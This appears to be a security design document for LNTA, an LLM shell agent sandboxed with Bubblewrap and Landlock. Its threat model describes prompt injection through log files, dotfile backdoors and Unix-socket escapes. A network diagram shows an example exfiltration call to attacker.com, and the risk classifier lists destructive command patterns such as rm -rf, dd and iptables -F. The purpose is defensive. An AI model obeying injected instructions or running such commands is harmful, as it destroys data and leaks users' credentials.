

# LNTA Security Model: Defense-in-Depth for Linux Systems

> Technical analysis of LNTA's 2-tier sandboxing, secret masking, CVE mitigations, and semantic blast-radius controls. Designed for system administrators, security engineers, and compliance auditors.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Threat Model](#threat-model)
- [The 2-Tier Isolation Sandbox](#the-2-tier-isolation-sandbox)
  - [Tier 1: Bubblewrap (`bwrap`)](#tier-1-bubblewrap-bwrap)
  - [Tier 2: Linux Landlock LSM Fallback](#tier-2-linux-landlock-lsm-fallback)
  - [Comparison of Sandbox Backends](#comparison-of-sandbox-backends)
- [Why Unix Domain Sockets Require Special Handling](#why-unix-domain-sockets-require-special-handling)
- [Mitigation of CVE-2026-25725: Phantom Dotfile Persistence](#mitigation-of-cve-2026-25725-phantom-dotfile-persistence)
- [Network Isolation & Exfiltration Defense](#network-isolation--exfiltration-defense)
- [3-Tier Semantic Blast-Radius Classifier](#3-tier-semantic-blast-radius-classifier)
  - [Tier 1: Low Mutation (`LOW_MUTATION`)](#tier-1-low-mutation-low_mutation)
  - [Tier 2: Elevated Mutation (`ELEVATED_MUTATION`)](#tier-2-elevated-mutation-elevated_mutation)
  - [Tier 3: Critical Destructive (`CRITICAL_DESTRUCTIVE`)](#tier-3-critical-destructive-critical_destructive)
  - [Anti-Fatigue Challenge Gate](#anti-fatigue-challenge-gate)
- [Ubuntu AppArmor User Namespace Restrictions](#ubuntu-apparmor-user-namespace-restrictions)
  - [Inspecting Ubuntu's Policy](#inspecting-ubuntus-policy)
- [Summary Security Architecture Diagram](#summary-security-architecture-diagram)

---

## Executive Summary

Traditional LLM shell interfaces grant models unbounded access to `/bin/bash`. If an LLM hallucinates, gets confused by malformed prompt context, or encounters adversarial prompt injection within log files, it can delete critical paths, leak credentials, or establish backdoors.

LNTA replaces unbounded shell access with **constrained, typed tools** and a **hardened kernel sandbox**:
1. **Zero Unbounded Shell Tools**: The LLM interacts with the operating system strictly through four tools: `inspect_system`, `write_scoped_file`, `mutate_system`, and `complete_task`.
2. **Read-Only System Grounding**: Context discovery is confined to an airgapped, read-only kernel sandbox.
3. **Defense Against Secret Exfiltration**: Cloud credentials, SSH keys, GPG rings, browser cookies, and local dotfiles are masked out of the filesystem namespace before execution.
4. **Anti-Fatigue Challenge Gates**: High-risk commands demand explicit typing of verification challenge codes rather than mindless `[y/N]` tapping.
5. **Deterministic Verification Gates**: An LLM cannot mark a task as completed through conversational assertion; completion requires execution of a deterministic shell verification script (`verify_cmd`).

---

## Threat Model

LNTA defends against five distinct attack vectors:

| Threat Vector | Attack Mechanism | LNTA Mitigation |
|---|---|---|
| **Adversarial Prompt Injection** | Untrusted log data (e.g. `journalctl`) contains instructions telling the agent to exfiltrate files or run `curl ... \| sh`. | Network namespace is unshared (`--unshare-net`); secret directories are masked; mutations require interactive human approval. |
| **Phantom Dotfile Hijacking (CVE-2026-25725)** | Agent is tricked into creating non-existent startup files (`~/.bashrc`, `~/.ssh/authorized_keys`) to gain persistent execution. | All dotfile targets are masked with `/dev/null` or mounted inside ephemeral `tmpfs`. Writes never touch host disk. |
| **Silent Exfiltration via Unix Sockets** | Malicious command uses `/run/user/<uid>/bus` or `/var/run/docker.sock` to bypass network isolation. | `/run` is masked with an empty `tmpfs`, exposing only inert system data (`udev`, `utmp`, `log`). |
| **Accidental Destructive Mutation** | Agent proposes destructive operations (`rm -rf /`, `dd if=...`, `ufw reset`) due to ambiguous input. | **3-Tier Blast-Radius Classifier** intercepts destructive commands and triggers the Anti-Fatigue Challenge Gate. |
| **Hallucinated Task Success** | Agent declares an issue fixed without actually solving it, leaving the system in an inconsistent state. | **Deterministic Verification Gate**: `complete_task` executes `verify_cmd`. Exit code 0 is mandatory. |

---

## The 2-Tier Isolation Sandbox

LNTA implements a dual-backend isolation model:

```text
┌────────────────────────────────────────────────────────┐
│                   LNTA Sandbox Manager                 │
└───────────────────────────┬────────────────────────────┘
                            │
               Is bwrap installed & allowed?
                            │
              ┌─────────────┴─────────────┐
             YES                          NO
              ▼                           ▼
   ┌──────────────────────┐    ┌──────────────────────┐
   │ Tier 1: Bubblewrap   │    │ Tier 2: Landlock LSM │
   │ (Namespaces + Mounts)│    │ (Direct Kernel Syscall)│
   └──────────────────────┘    └──────────────────────┘
```

### Tier 1: Bubblewrap (`bwrap`)

Bubblewrap uses Linux unprivileged user namespaces and mount namespaces to construct a hermetic, ephemeral root filesystem:

```bash
bwrap \
  --unshare-user --unshare-ipc --unshare-pid --unshare-net --unshare-uts --unshare-cgroup-try \
  --new-session --die-with-parent \
  --cap-drop ALL \
  --clearenv \
  --ro-bind / / \
  --dev /dev \
  --proc /proc \
  --tmpfs /tmp \
  --tmpfs /var/tmp \
  --tmpfs /run \
  --ro-bind-try /run/udev /run/udev \
  --ro-bind-try /run/utmp /run/utmp \
  --ro-bind-try /run/log /run/log \
  --chdir <cwd> -- <command>
```

#### Security Properties of Flags:
- `--ro-bind / /`: The host root filesystem is mounted strictly read-only. No file can be modified.
- `--unshare-net`: The network namespace is disconnected. All network interfaces except loopback (`lo`) are absent.
- `--cap-drop ALL`: Drops all Linux POSIX capabilities (e.g. `CAP_SYS_ADMIN`, `CAP_NET_RAW`).
- `--die-with-parent`: Kills sandboxed sub-processes immediately if the parent LNTA process terminates.
- `--clearenv`: Scrubs all environment variables to prevent token leakage from shell sessions.

---

### Tier 2: Linux Landlock LSM Fallback

When `bwrap` is missing or blocked by kernel policies (e.g. hardened containers or restricted user namespaces), LNTA attempts the **Linux Landlock** backend. It requires ABI 10 and an additional seccomp network filter; older or restricted kernels are refused rather than run without isolation:

1. **Self-Re-execution**: LNTA re-executes itself via a hidden internal command: `lnta __sandbox_exec`.
2. **Landlock Ruleset Creation**: Restricts filesystem access rights to read-only (`LANDLOCK_ACCESS_FS_READ_FILE`, `LANDLOCK_ACCESS_FS_READ_DIR`).
3. **No-New-Privs**: Invokes `prctl(PR_SET_NO_NEW_PRIVS, 1)` before applying the ruleset.
4. **Network Socket Restrictions**: Landlock network rules are combined with seccomp that rejects creation of IPv4, IPv6, and MPTCP sockets. This does not revoke already-open descriptors; LNTA starts children without inherited application descriptors.
5. **Host Process Protection**: Because Landlock has no PID namespace, the fallback does not grant `/proc` and blocks process signaling, inspection, and session/process-group detachment syscalls. Host process inspection is unavailable in this backend.
6. **Fail-Closed Guarantee**: If Landlock or the required seccomp filters are unavailable, execution fails rather than falling back to uncontained shell execution.

Approved `mutate_system` commands need host filesystem writes, so they do not use the read-only Landlock policy. They run in LNTA's managed process group with a hidden launcher that denies `setsid` and `setpgid` before executing the shell. This prevents those commands from deliberately detaching from that group; it does not provide filesystem isolation or a complete process-tree guarantee.

---

### Comparison of Sandbox Backends

| Feature | Bubblewrap (`bwrap`) | Landlock LSM Fallback |
|---|---|---|
| **Kernel Requirements** | Linux user namespaces and required mounts | Landlock ABI 10 plus seccomp filter support |
| **Filesystem Isolation** | Mount namespace (`--ro-bind / /`) | Kernel LSM syscall-level filtering |
| **Network Isolation** | Network namespace (`--unshare-net`) | Landlock network rules plus seccomp socket-family denial |
| **Secret Masking** | Ephemeral `tmpfs` mounts over secret paths | Selective path access denial |
| **PID Isolation** | Complete PID namespace (`--unshare-pid`) | No PID namespace; `/proc` is denied and process-control syscalls are blocked |
| **Process Cleanup** | Automatic via `--die-with-parent` | PR_SET_PDEATHSIG signal handling |

---

### Remote SSH Inspection

Remote inspection uses Bubblewrap on the target. LNTA probes the actual user, PID, network, IPC, UTS namespaces and required mounts before allowing any protected command; a missing binary, failed probe, or unsupported capability is an error. There is no plain-shell fallback. The remote profile uses a read-only root, private `/tmp`, `/var/tmp`, and `/run`, drops capabilities, clears the environment, disables SSH agent forwarding, and masks remote credential directories plus common credential files in the working directory. Remote scoped writes and native desktop-entry verification currently fail closed because their local snapshot and verifier guarantees are not implemented on the target. Remote inspection does not use the local Landlock fallback.

The SSH client still uses the operator's configured SSH authentication and host-key policy. Remote commands run as the configured account, so Bubblewrap confines process access but does not replace remote account separation or protect against a compromised remote kernel/SSH server.

---

## Why Unix Domain Sockets Require Special Handling

A critical vulnerability in naive container sandboxes is **Unix domain socket leakage**.

Even with `--unshare-net`, Linux network namespaces **do not block communication over filesystem AF_UNIX sockets**. If `/run` or `/var/run` is exposed read-only inside a container, a sandboxed process can connect to:
- `/var/run/docker.sock` (Full host root takeover)
- `/run/user/<uid>/bus` (D-Bus session bus — can launch arbitrary apps or read clipboard)
- `/run/user/<uid>/keyring/ssh` or `$SSH_AUTH_SOCK` (SSH agent key signing)
- `/run/user/<uid>/gnupg/S.gpg-agent` (GPG decryption and signing)
- `/run/podman/podman.sock` (Podman API daemon)

### LNTA's Neutralization:
LNTA mounts an empty `tmpfs` over `/run` and selectively re-exposes only non-interactive, inert hardware information:
- `--tmpfs /run`
- `--ro-bind-try /run/udev /run/udev` (Needed for hardware queries)
- `--ro-bind-try /run/utmp /run/utmp` (Needed for login accounting)
- `--ro-bind-try /run/log /run/log` (Read-only systemd journal logs)

All D-Bus, Docker, Podman, and SSH/GPG agent sockets are rendered completely inaccessible.

---

## Mitigation of CVE-2026-25725: Phantom Dotfile Persistence

### The Vulnerability Explained
In modern agent architectures, tools frequently attempt to inspect or write configuration files in `$HOME`. Attackers identified that if an agent attempts to inspect or write to a **non-existent startup dotfile** (e.g. `~/.bashrc`, `~/.zshrc`, `~/.profile`, `~/.ssh/authorized_keys`, `~/.config/claude/settings.json`), the path is often not masked because it did not exist when directory scans occurred.

An injected agent can then write a backdoor to that path. Upon the user's next terminal session, the malicious script is executed with full user privileges.

### LNTA's Defense Matrix

LNTA neutralizes CVE-2026-25725 through a 3-layer mask strategy:

```text
┌────────────────────────────────────────────────────────────────────────┐
│                   LNTA MASKING ARCHITECTURE                            │
├────────────────────────────────────────────────────────────────────────┤
│ 1. Home Dotfiles (.bashrc, .zshrc, .profile...)                        │
│    ──► Bound directly to /dev/null via --ro-bind                       │
│                                                                        │
│ 2. Secret Directories (~/.ssh, ~/.gnupg, ~/.aws, ~/.config/lnta...)    │
│    ──► Masked with empty tmpfs mounts                                  │
│                                                                        │
│ 3. Project Tree Secrets (.env*, .netrc, credentials.json...)           │
│    ──► Scanned within explicit depth/entry bounds and excluded         │
└────────────────────────────────────────────────────────────────────────┘
```

1. **Direct Home Dotfiles**: `~/.bashrc`, `~/.zshrc`, `~/.profile`, `~/.bash_profile`, `~/.bash_login`, and `~/.bash_logout` are bound over with `/dev/null`. Even if the file does not exist on disk, bwrap creates a read-only node bound to `/dev/null`. Writes fail immediately with `EPERM` or `EROFS`.
2. **Secret Directories**: `~/.ssh`, `~/.gnupg`, `~/.aws`, `~/.kube`, `~/.config/lnta`, and `~/.config/claude` are mounted over with empty `tmpfs`. Even if a sandboxed command writes inside `~/.ssh/authorized_keys`, the file is written to ephemeral RAM and vanishes the millisecond the process terminates.
3. **Project Credential Scan**: The project tree is scanned in bounded directory batches through ignored directories as well as ordinary source directories, with a maximum depth of 32 and 5,000 entries. Bubblewrap masks discovered credential files; Landlock omits them from its allowlist. Landlock's separate allowlist walk is capped at depth 32 and 20,000 entries. Neither scan follows project symlinks. If a symlink, traversal error, depth boundary, or entry limit makes coverage incomplete, the sandbox refuses to run. These bounds are deliberate resource limits and are never reported as complete masking when the scan stops early.

---

The project scan and backend setup are path-based rather than an atomic filesystem snapshot. A concurrent writer can add or replace entries after discovery and before Bubblewrap mounts paths or Landlock applies its rules. The current fail-closed checks cover the tree as observed during each scan; they do not guarantee race-free masking against a process that can modify the project concurrently. Avoid running inspections while an untrusted process is changing the project tree.

## Network Isolation & Exfiltration Defense

During system inspection (`inspect_system` and `context_cmd`), network egress is entirely disabled:

```text
Sandboxed Process (bwrap)
   │
   ├──► Outbound TCP/UDP request (e.g. curl https://attacker.com/leak)
   │    │
   │    └──► Kernel Network Namespace: Only "lo" interface present
   │         │
   │         └──► Result: Network is unreachable (ENETUNREACH)
```

- **Loopback Preservation**: The sandbox preserves local loopback (`127.0.0.1`) so tools can communicate with locally spawned helper processes when needed, but no packets can cross the host network adapter.
- **DNS Denial**: `/etc/resolv.conf` queries fail because external DNS server IPs (e.g. `8.8.8.8`, `1.1.1.1`) are unreachable.

---

## 3-Tier Semantic Blast-Radius Classifier

Before any command is submitted to `mutate_system`, LNTA evaluates the command string against the **Semantic Blast-Radius Classifier** (`internal/sandbox/risk.go`).



### Tier 1: Low Mutation (`LOW_MUTATION`)
- **Scope**: User-space changes with low risk of system disruption.
- **Examples**: `systemctl --user daemon-reload`, updating local desktop entries.
- **UI Presentation**: Clean, single-line confirmation prompt.

---

### Tier 2: Elevated Mutation (`ELEVATED_MUTATION`)
- **Scope**: Package installation, sudo escalation, system service restarts, or modifying system-wide permissions.
- **Examples**:
  - `sudo apt install -y nginx`
  - `systemctl restart NetworkManager`
  - `chmod 600 /etc/wireguard/wg0.conf`
- **UI Presentation**: Displays a highlighted warning banner indicating the affected system components (`[systemd]`, `[packages]`, `[permissions]`), defaulting to `N`.

---

### Tier 3: Critical Destructive (`CRITICAL_DESTRUCTIVE`)
- **Scope**: Irreversible operations, raw storage writes, network flushes, or operations on core OS files.
- **Patterns Detected**:
  - Recursive deletion: `rm -rf`, `find ... -delete`, `find ... -exec rm`
  - Storage writes: `dd if=...`, `mkfs.*`, `fdisk`, `parted`, `> /dev/sd*`
  - Firewall flushes: `ufw --force reset`, `iptables -F`
  - System secrets: Writing to `/boot/`, `/etc/shadow`, `/etc/sudoers`, `/etc/fstab`
  - Account/cron wipe: `crontab -r`, `drop database`, `shred`, `wipefs`

### Anti-Fatigue Challenge Gate
Simple `[y/N]` prompts suffer from **approval fatigue**: developers tapping `y` out of habit. 

When a `CRITICAL_DESTRUCTIVE` command is detected:
1. Standard `[y/N]` confirmation is **disabled**.
2. Any `--yes` or non-interactive bypass flags are **strictly ignored**.
3. A random 4-character cryptographic challenge code is generated (e.g. `k8F2`).
4. The user must manually type the exact challenge code to authorize execution.

```text
╔════════════════════════════════════════════════════════════════════════════╗
║                   CRITICAL DESTRUCTIVE COMMAND DETECTED                    ║
╠════════════════════════════════════════════════════════════════════════════╣
║ Command:  rm -rf /var/log/journal/*                                        ║
║ Reason:   Matches recursive removal pattern (rm -rf)                       ║
║ Affected: [/var/log/journal]                                               ║
╚════════════════════════════════════════════════════════════════════════════╝

Anti-Fatigue Gate: Simple [y/N] disabled.
Type challenge code [9xQ2] to execute, or press Ctrl+C to cancel: 
```

---

## Ubuntu AppArmor User Namespace Restrictions

Ubuntu enables restricted unprivileged user namespaces through AppArmor on supported releases:
`kernel.apparmor_restrict_unprivileged_userns = 1`

This can affect Bubblewrap's ability to create a user namespace. The sysctl value alone does not establish why a specific probe failed. LNTA doctor reports the production-equivalent probe stderr, exit status, duration, and sandbox AppArmor label when available.

### Inspecting Ubuntu's Policy

```bash
lnta doctor --verbose
sudo aa-status
sudo journalctl -k --since today | grep -i apparmor
```

The `doctor --generate-apparmor` option remains available for compatibility and prints only non-mutating guidance. It does not emit an AppArmor policy. LNTA packages do not load, replace, or remove system AppArmor profiles.

---

## Summary Security Architecture Diagram

```text
┌─────────────────────────────────────────────────────────────────────────────┐
│                           SECURITY BOUNDARY                                 │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│  [User Prompt / Pipe] ──► Local Intent Router (<5ms)                       │
│                                  │                                          │
│                                  ▼                                          │
│                    ┌────────────────────────────┐                           │
│                    │ Sandboxed Discovery Layer  │                           │
│                    │ • bwrap --ro-bind / /      │                           │
│                    │ • --unshare-net            │                           │
│                    │ • Masked ~/.ssh, ~/.gnupg  │                           │
│                    │ • Phantom Dotfile Mask     │                           │
│                    └─────────────┬──────────────┘                           │
│                                  │                                          │
│                                  ▼                                          │
│                    ┌────────────────────────────┐                           │
│                    │ 3-Tier Risk Classifier     │                           │
│                    │ • Low: [y/N]               │                           │
│                    │ • Elevated: Warning banner │                           │
│                    │ • Critical: Challenge Gate │                           │
│                    └─────────────┬──────────────┘                           │
│                                  │ (Explicit Human Authorization)           │
│                                  ▼                                          │
│                    ┌────────────────────────────┐                           │
│                    │ Transactional Mutation     │                           │
│                    │ • Scoped write to allowed  │                           │
│                    │ • Atomic snapshot backup   │                           │
│                    └─────────────┬──────────────┘                           │
│                                  │                                          │
│                                  ▼                                          │
│                    ┌────────────────────────────┐                           │
│                    │ Mandatory Verification     │                           │
│                    │ • verify_cmd shell check   │                           │
│                    │ • Exit 0 required          │                           │
│                    └────────────────────────────┘                           │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```
